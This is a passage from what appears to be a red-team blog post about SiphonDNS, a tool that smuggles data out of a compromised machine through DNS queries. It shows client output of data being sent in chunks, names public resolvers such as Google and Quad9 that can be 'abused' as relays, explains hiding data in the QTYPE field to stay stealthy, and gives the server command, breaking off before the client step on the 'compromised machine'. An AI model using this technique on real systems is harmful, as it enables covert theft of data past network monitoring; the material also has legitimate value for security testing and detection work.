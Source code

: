 ```sh
...[SNIP]...

Sending: 104.74.119.0 ... OK
Sending: 65.65.47.0 ... OK
Sending: 47.57.56.0 ... OK
Sending: 57.107.71.0 ... OK
Sending: 1.84.0.0 ... OK
Sending: 7.3.13.0 ... OK
Done in 108 requests.
```

It will send data with a default delay of 200 milliseconds between each request. You can control this with the parameter `-delay`.

Since 8.8.8.8:53 was specified as a resolver, all the communication went through Google DNS, but it's not the only one that can be abused, these will also work:

* **Google**: 8.8.8.8 and 8.8.4.4
* **Quad9**: 9.9.9.11 and 149.112.112.11
* **GCore**: 95.85.95.85 and 2.56.220.2

These are the more popular ones out of a list that I tested. There are dozens more, but they are mostly smaller ones that would only make sense for the regions they operate in - so doing your own research depending on engagement geography will bring the best results.

#### QTYPE (Query Type)

This time, we'll be hiding inside the Question structure itself. A nice thing about this section is that it's always forwarded to the authoritative server verbatim (unless you hit the cache, of course). Since the subdomain field is not available, let's leverage the rest of the fields: QTYPE and QCLASS.

Well, in this PoC, I'll be using QTYPE only, because I'm trying to stay as stealthy as possible, and while arbitrary QTYPEs are quite weird already, adding QCLASS in there is just too noticeable since QCLASS is almost always a fixed value "1".

Using QTYPE only leaves us with 2 bytes per message, here's another naive encoder that's used here:

![qtype-encoding]({{ page.images_path }}/5.png)

The protocol itself is similar, but this time, to avoid cache hits, it'd be a pain in the ass to find an appropriate field for each QTYPE Answer that will convey a marker of cache miss. Instead, we'll just use TTL which is a common field for all Resource Records and the length of the current data buffer will be enough to assert cache miss:

![qtype-protocol]({{ page.images_path }}/6.png)

This is how you do that with SiphonDNS:

* Run the SiphonDNS server on your NS server

```sh
$ ./siphondns-server -method qtype
```

* Then run the SiphonDNS client on the compromised machine
